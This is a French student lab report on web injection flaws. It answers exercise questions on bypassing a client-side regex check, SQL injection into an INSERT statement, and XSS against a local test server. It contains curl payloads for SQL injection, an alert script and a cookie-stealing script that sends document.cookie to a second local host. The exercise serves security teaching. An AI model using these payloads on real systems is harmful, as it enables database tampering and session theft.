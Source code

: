 # Rendu "Injection"

## Binome

Nom, Prénom, email: KROL Mikolaï mikolai.krol.etu@univ-lille.fr
Nom, Prénom, email: HOLVOET Adrien adrien.holvoet.etu@univ-lile.fr


## Question 1

* Quel est ce mécanisme?   

La mise en place d'une vérification de l'input par une function javascript avec un regex. Donc une vérification côté client.

* Est-il efficace? Pourquoi?   
Non car c'est très simple de contourner une vérification côté client, il est préférable de faire cela côté serveur. En effet cette vérification peut-être contourner par une simple requête curl ou encore en désactivant le javascript dans la navigateur.

## Question 2

* Votre commande curl   
```
curl -d "chaine=f(-(é_à" http://localhost:8080;
```

## Question 3

* Votre commande curl pour mettre le contenu que je souhaite dans le champ who autre que l'adresse ip 127.0.0.1
```
curl -d 'chaine=mon text%27%,%27ce que je veux%27) -- '  http://localhost:8080;
```


* Expliquez comment obtenir des informations sur une autre table

Pour obtenir les infos d'une autre table, il faudrait connaitre le nom de celle-ci et également les colonnes que l'on souhaite regarder. Et on pourrait alors combiner la commande INSERT INTO avec la commande SELECT pour selectionner les valeurs comprises dans une autres tables, les insérer dans notre table chaines qui s'affichera sur notre page web.
La commande SQL ressemblerais à ça `INSERT INTO chaines(txt,who) SELECT col1, col2 FROM otherTable`

## Question 4

Rendre un fichier server_correct.py avec la correction de la faille de
sécurité. Expliquez comment vous avez corrigé la faille.

## Question 5

* Commande curl pour afficher une fenetre de dialog. 
```
curl -d 'chaine=<script>alert("hello")</script>'  http://localhost:8080;
```

* Commande curl pour lire les cookies
```
curl -d 'chaine=<script>window.location.replace "localhost:4000/search?cookie=" + document.cookie</script>'  http://localhost:8080;
```

## Question 6

Rendre un fichier server_xss.py avec la correction de la
faille. Expliquez la demarche que vous avez suivi.


